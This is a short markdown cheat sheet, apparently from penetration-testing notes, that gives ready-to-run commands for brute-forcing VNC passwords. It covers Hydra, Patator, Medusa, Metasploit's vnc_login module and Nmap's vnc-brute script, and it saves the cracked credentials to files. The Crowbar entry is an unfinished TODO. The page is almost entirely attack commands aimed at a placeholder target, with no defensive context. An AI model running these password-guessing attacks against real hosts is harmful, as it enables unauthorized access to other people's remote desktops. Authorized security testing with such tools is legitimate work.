 # VNC

## 01 - Hydra

`$ hydra -vvv -P passwords.lst -e nsr -t 16 <IP> vnc -o vnc_creds.txt`

## 02 - Crowbar

TODO: Provide a syntax of vnckey to brute force targets with crowbar

`$ crowbar`

## 03 - Patator

`$ patator vnc_login host=<IP> password=FILE0 0=passwords.lst -t 1 -x retry:fgrep!='Authentication failure' --max-retries 0 -x quit:code=0 -R vnc_creds.txt`

## 04 - Medusa

`$ medusa -h <IP> -u root -P passwords.lst -M vnc | tee vnc_creds.txt`

## 05 - Metasploit

```
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(scanner/vnc/vnc_login) > options

Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                                   Required  Description
   ----              ---------------                                                   --------  -----------
   BLANK_PASSWORDS   false                                                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                 yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                             no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                             no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                              no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                            no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
   Proxies                                                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             5900                                                              yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                             yes       Stop guessing when a credential works for a host
   THREADS           1                                                                 yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                                           no        A specific username to authenticate as
   USERPASS_FILE                                                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                             no        Try the username as the password for all users
   USER_FILE                                                                           no        File containing usernames, one per line
   VERBOSE           true                                                              yes       Whether to print output for all attempts

msf auxiliary(scanner/vnc/vnc_login) > set rhosts <IP>

msf auxiliary(scanner/vnc/vnc_login) > set rport <PORT>

msf auxiliary(scanner/vnc/vnc_login) > set PASS_FILE passwords.lst

msf auxiliary(scanner/vnc/vnc_login) > set threads 4

msf auxiliary(scanner/vnc/vnc_login) > exploit
```

## 06 - Nmap

`$ nmap -p 5900 --script vnc-brute --script-args passdb=passwords.lst <IP>`

---
## References

- [Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)